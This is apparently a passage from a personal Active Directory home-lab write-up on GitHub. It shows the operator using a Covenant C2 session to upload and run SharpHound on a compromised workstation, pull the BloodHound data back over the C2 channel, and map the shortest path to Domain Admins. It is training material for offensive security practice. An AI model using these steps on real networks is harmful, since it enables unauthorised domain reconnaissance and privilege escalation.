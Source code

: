 # 4. Movement, Pivoting, and Persistence in Domain

> ### Machines Required: WorkStation-01,02 and Domain Controller

## 1. Doamin Through BloodHound

- Interact with the session of user s.chisholm, Change directory to `C:\Users\Public`and upload `sharphound.exe` on target machine.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/2ed13000-782a-4e4e-8208-38af83fa52ff)

- Execute the sharphound byb using cmd `shell sharphound.exe -c all`.

```powershell
(singhx) > shell sharphound1.exe -c all

76 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-07-27T14:14:54.0910809+01:00|INFORMATION|SharpHound Enumeration Completed at 2:14 PM on 7/27/2023! Happy Graphing!
```
- Download the `zip` file using covenant's download command.

```powershell
(singhx) > download 20230727141452_BloodHound.zip

Download completed: 20230727141452_BloodHound.zip
```
- Start `neo4j console` and login.
- Open BloodHound and upload the zip file we downloaded.
- On navigating to Analysis tab and find the shortest path to doamin admins we get a graph showing path to domain admins.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/092a6d8e-06bf-4b55-a8d1-2c3e9d8bc812)

## 2. Abusing ACLs

